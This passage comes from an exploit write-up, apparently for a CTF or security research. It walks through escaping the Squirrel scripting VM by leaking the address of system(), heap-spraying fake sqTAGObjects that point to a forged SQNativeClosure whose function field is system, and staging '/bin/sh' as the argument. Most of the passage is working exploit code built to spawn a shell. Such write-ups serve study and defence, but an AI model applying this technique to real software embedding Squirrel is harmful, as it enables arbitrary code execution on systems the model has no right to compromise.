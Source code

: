 Now we're able to calculate the address of `system()` in sqstdlib!

```lua
local systemClosure = formatClosure + 0x4a0
```


With the leak compleated, we're able to spray some more sqTAGObjects. This time, we'll set the type to SQNativeClosure
and the `_unVal` pointer to point to a fake SQNativeClosure object, located at the and of our blob.
```lua
print(format("[~] Performing fakeNativeClosure Spray with 0x%016x!...\n", systemClosure))

sSpray.seek(0x00) # padding
for(local i=0; i < sSpray.len()-0x80; i += 0x10) {
    #### Build fake sqTAGObject ####
    sSpray.writen(0x08000200, 'i')          # type nativeClosure
    sSpray.writen(0x43434343, 'i')          # padding
    
    sSpray.writen(printLeak+0x12700, 'l')   # _unVal --> SQNativeClosure
}
```

This is is the fake SQNativeClosure, that all the fake sqTAGObjects will be pointing to. Since we're not
calling to many operations on it, most of its fields like the VTable or the liked-list entries can be
ignored and just zeroed out. This makes faking this object significantly simpler ;) 

```lua
sSpray.writen(0x55545352, 'l')     # _vptr
sSpray.writen(0x00000001, 'l')     # _uiRef
sSpray.writen(0x00000000, 'l')     # _weakref
sSpray.writen(0x00000000, 'l')     # _next
sSpray.writen(0x00000000, 'l')     # _prev
sSpray.writen(0x00000000, 'l')     # _sharedstate
sSpray.writen(0x00000000, 'l')     # _nparamscheck
sSpray.writen(0x00000000, 'l')     # _typecheck->_vals
sSpray.writen(0x00000000, 'l')     # _typecheck->_size
sSpray.writen(0x00000000, 'l')     # _typecheck->_allocated
sSpray.writen(0x00000000, 'l')     # _outervalues
sSpray.writen(0x00000000, 'l')     # _noutervalues
sSpray.writen(0x00000000, 'l')     # _env
sSpray.writen(systemClosure, 'l')  # _function      !!!system!!!
sSpray.writen(0x08000010, 'l')     # _name->_type
sSpray.writen(0x00000000, 'l')     # _name->_unVal

print("[+] Getting fakeClosure!\n")
```

We're all set! The heap has been prepared with our fake sqTAGObjects. Now, we need to prepare 
the parameters to call our fakeFunction with. We'll use the literal at offset 0x7, which is `/bin/sh\x00` (`win`),
the one we created at the very beginning of this exploit.
